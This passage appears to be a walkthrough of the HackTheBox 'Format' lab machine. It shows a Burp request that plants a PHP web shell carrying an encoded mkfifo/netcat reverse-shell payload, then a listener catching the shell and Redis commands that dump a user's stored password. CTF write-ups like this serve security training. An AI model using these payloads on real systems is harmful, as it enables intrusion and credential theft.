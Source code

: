 ## In BurpSuite:

```
POST /edit/index.php HTTP/1.1
Host: hacker.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://hacker.microblog.htb
DNT: 1
Connection: close
Referer: http://hacker.microblog.htb/edit/
Cookie: username=f5b43mrh60u956rbsgp15nrgai
Upgrade-Insecure-Requests: 1

id=/var/www/microblog/hacker/uploads/rev.php&header=%3C%3Fphp+echo+shell_exec%28%22rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+10.10.16.2+9001+%3E%2Ftmp%2Ff%22%29%3B%3F%3E
```


## Browser:  `http://hacker.microblog.htb/uploads/rev.php` to get revserse shell.
```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $nc -lvnp 4545
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4545
Ncat: Listening on 0.0.0.0:4545
Ncat: Connection from 10.10.11.213.
Ncat: Connection from 10.10.11.213:43864.
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Redis command  [Redis Cheat Sheet (lzone.de)](https://lzone.de/cheat-sheet/Redis)
```bash
www-data@format ~$redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> 
redis /var/run/redis/redis.sock> echo "keys *" | redis-cli -s /var/run/redis/redis.sock
(error) ERR wrong number of arguments for 'echo' command
redis /var/run/redis/redis.sock> keys *
 1) "PHPREDIS_SESSION:20hi483jceq8g0t8523r8585pj"
 2) "hacker:sites"
 3) "PHPREDIS_SESSION:aotk6stg7aoh6lsdccsq2qhai6"
 4) "cooper.dooper:sites"
 5) "wml"
 6) "hacker"
 7) "nghiale"
 8) "PHPREDIS_SESSION:d8o1k85mud6l8l0i0hrkadj77c"
 9) "cooper.dooper"
10) "PHPREDIS_SESSION:00111mmhsdjjlnq7stv5g3sooh"
11) "nghiale:sites"
redis /var/run/redis/redis.sock> hgetall cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
```